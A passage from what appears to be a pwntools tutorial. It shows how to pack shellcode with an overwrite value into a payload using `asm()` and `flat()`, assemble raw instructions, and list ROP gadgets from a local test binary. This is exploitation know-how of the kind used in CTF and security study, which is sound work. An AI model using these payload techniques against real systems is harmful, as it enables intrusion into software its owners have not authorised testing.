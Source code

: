 Now one thing to note is that if you print out the `shellcode` variable, it will print the human-readable assembly code. To send this as a payload, you have to wrap it in the `asm()` function.

```python
p.sendline(
    flat({
        36: asm(shellcode),
        36+len(asm(shellcode)): 0xdecafbad
    })
)
```
Flexing a little bit on the calculations there. But this will add a packed `0xdecafbad` to the end of the shellcode. Note that I don't need to explicitly pack this value, `flat()` will handle the endianness for me based on the context of the binary.

### Straight Up Assembly

Of course you can just type up raw assembly and pwntools will happily convert it to raw bytecode. Ordinarily [Defuse's online assembler/disassembler](https://defuse.ca/online-x86-assembler.htm) has always been my goto, but this is pretty neat regardless.

With the `asm()` function, you can just convert any old assembly code with ease:

```python
random_shellcode = asm("""
dec rax
xor rdi, rdi
push rsp
syscall
""")

# b'H\xff\xc8H1\xffT\x0f\x05'
```

> Note: the above is nonsensical and won't actually do anything. Just random instructions.
{: .prompt-info }

## ROP Chains

If you give pwntools a good review from their documentation, you'd be surprised at exactly what you can do with their built-in ROP chain handler. First, before we do anything, we'll have to establish a ROP object. We can do this like so:

```python
exe = context.binary = ELF("./vuln")
rop = ROP(exe)
```

Now we can use the `rop` object to determine how best to proceed. First, we can get a list of all the gadgets that pwntools was able to detect from the supplied binary, like so:

```python
rop.gadgets
"""
{4900: Gadget(0x1324, ['add esp, 0x38', 'pop rbx', 'pop rbp', 'ret'], [56, 'rbx', 'rbp'], 0x50),
 4952: Gadget(0x1358, ['add esp, 0x48', 'ret'], [72], 0x50),
 4119: Gadget(0x1017, ['add esp, 8', 'ret'], [8], 0x10),
 4899: Gadget(0x1323, ['add rsp, 0x38', 'pop rbx', 'pop rbp', 'ret'], [56, 'rbx', 'rbp'], 0x50),
 4951: Gadget(0x1357, ['add rsp, 0x48', 'ret'], [72], 0x50),
 4118: Gadget(0x1016, ['add rsp, 8', 'ret'], [8], 0x10),
 5052: Gadget(0x13bc, ['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['r12', 'r13', 'r14', 'r15'], 0x28),
 5054: Gadget(0x13be, ['pop r13', 'pop r14', 'pop r15', 'ret'], ['r13', 'r14', 'r15'], 0x20),
 5056: Gadget(0x13c0, ['pop r14', 'pop r15', 'ret'], ['r14', 'r15'], 0x18),
 5058: Gadget(0x13c2, ['pop r15', 'ret'], ['r15'], 0x10),
 5051: Gadget(0x13bb, ['pop rbp', 'pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r12', 'r13', 'r14', 'r15'], 0x30),
 5055: Gadget(0x13bf, ['pop rbp', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r14', 'r15'], 0x20),
```